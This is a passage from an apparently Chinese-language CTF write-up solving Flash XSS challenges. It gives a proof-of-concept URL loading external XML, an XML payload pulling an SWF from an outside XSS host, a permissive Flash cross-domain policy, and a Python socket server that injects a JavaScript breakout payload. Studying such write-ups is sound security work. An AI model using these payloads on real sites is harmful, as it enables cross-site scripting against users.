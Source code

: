 所以 POC 为：

```
http://sandbox.host.smartgslb.com/flash_3/?url=//test.com/1.xml 

```

XML 文件的内容为：

```
<pkav>
    <rect width="200" height="300" xscale="-1" yscale="-1" rotate="-180">
        <successMsg>
        <![CDATA[
            <img src='http://xsst.sinaapp.com/Xss.swf'>
        ]]>
        </successMsg>
    </rect>
</pkav>

```

13. Flash-04
------------

这一题我最初是直接跳过，到最后才搞定的。还是反编译 Flash，通过分析代码看到 hostName 可以指定 Flash socket 连接的服务器，就去 google 了 Flash socket 相关的资料。

结合 html 中的提示`xss with clickjacking`和经过一番那啥代码和坑之后有了大概的思路：

1.  在可控的服务器上运行一个 Flash socket policy server，用于 Flash 加载安全策略文件
2.  在这个可控的服务器上运行一个 Flash socket server，用于向 Flash 发送数据（主要是点击 Flash 上的`用户登陆`）
3.  当发送的数据达到一定的要求就会把数据进入到 ExternalInterface.call 中

先构建 Flash socket policy server，这个 google 下有现成的代码，可以参考下面连接的 python 代码：

```
http://114.215.178.29/static/projects/newgis.2013/etc/flex_socket_policy/flashpolicyd.py

```

这个服务运行在 843 端口上，策略文件的内容为：

```
<?xml version="1.0"?><cross-domain-policy><site-control permitted-cross-domain-policies="all"/><allow-access-from domain="*" to-ports="*" /></cross-domain-policy>

```

其次构建 Flash socket server，用于向 Flash 发送 payload，这里我首先通过一个 python echo server，运行在 6700 端口，观察 Flash 和该 socket server 通信的内容。经过来回倒腾两次大概知道了规律，所以更改了 python 代码，在接收到 Flash 发送过来的数据后直接修改最后的一部分数据为 payload，然后再发送到 Flash 上，代码如下：

```
import socket

host = ''
port = 6700
backlog = 5
size = 1024
s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
s.setsockopt(socket.SOL_SOCKET,socket.SO_REUSEADDR,1)
s.bind((host,port))
s.listen(backlog)
while 1:
    client, address = s.accept()
    data = client.recv(size)
    if data:
        client.send(data[:-26] + "\\\"));}catch(e){alert(1)}//")
    client.close()

```
